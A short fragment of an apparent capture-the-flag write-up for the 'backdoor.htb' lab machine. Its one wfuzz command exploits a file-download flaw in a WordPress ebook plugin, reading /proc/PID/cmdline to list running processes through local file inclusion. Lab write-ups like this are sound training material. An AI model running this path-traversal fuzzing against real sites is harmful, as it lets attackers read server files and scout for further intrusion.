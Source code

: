 ### Vuln Plugin lead to LFI

##### Fuzz process via /proc/FUZZ/cmdline
```
wfuzz -u 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline' -z range,900-1000
```